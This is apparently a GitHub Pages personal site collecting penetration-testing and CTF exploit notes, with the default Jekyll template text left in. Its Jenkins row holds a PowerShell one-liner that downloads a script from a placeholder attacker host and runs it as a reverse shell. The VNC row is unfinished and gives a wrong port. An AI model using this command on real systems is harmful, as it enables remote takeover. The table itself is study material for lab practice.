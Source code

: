 ## Pentest make easy

The purspose of this site is to make the Penetration testing and Privilege escation make easy. There are several exploits and various writeup avilable. But when it is needed its very difficult to find out the exact exploit and the writeup.

In this site I am attempting to collect most of the common exploits that appear in CTF and other exinvornments.


### Random Exploit collection

Here I am collectign some of the random exploits and their exploitation technqiues. Later I will categorised and group them to each group.
| Name     | Character |
| ---      | ---       |
| Backtick | `         |
| Pipe     | \|        |

| Application Name | Vulnerability | Scenario | Working Exploits | Reverse Shell | Writeup and Reference |
| --- | --- | --- | --- | --- | --- |
| Jenkins  | default username and pass |Running in Windows | Nishang to gain initial access. | Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port|https://executeatwill.com/2020/04/01/TryHackMe-Alfred-Walkthrough/|
| VNC  | Content Cell  |running in port 3389 and can be exploited using password lookup|


For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dayaramb/dayaramb.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
